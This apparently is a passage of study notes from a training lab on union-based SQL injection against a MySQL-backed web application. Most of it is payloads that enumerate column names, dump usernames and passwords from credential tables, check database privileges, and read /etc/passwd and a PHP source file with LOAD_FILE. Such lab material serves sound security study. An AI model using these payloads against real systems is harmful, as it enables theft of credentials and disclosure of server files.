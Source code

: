To dump the data of the credentials table, we first need to find the column names in the table, which can be found in the COLUMNS table in the INFORMATION_SCHEMA database. The COLUMNS table contains information about all columns present in all the databases. This helps us find the column names to query a table for. The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this. As we did before, let us try this payload to find the column names in the credentials table:
```

To enumerate each column name, what table that column is in, and what database the table is in.
```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

A generic SELECT would look like 
```
SELECT * FROM dev.credentials
```
A SQLi union payload would look like 
```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

```
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

# Reading Files

Databases can be used to read files, given that they have the proper system privledges. 

We first enumerate our user

```
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

If we're root, we might be the DBA.

```
SELECT super_priv FROM mysql.user
```

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

We can use a simple statement to read files.

```
SELECT LOAD_FILE('/etc/passwd');
```

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

We can try loading the search.php. We know apache2's default webroot is /var/www/html. We can select is like so

```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

```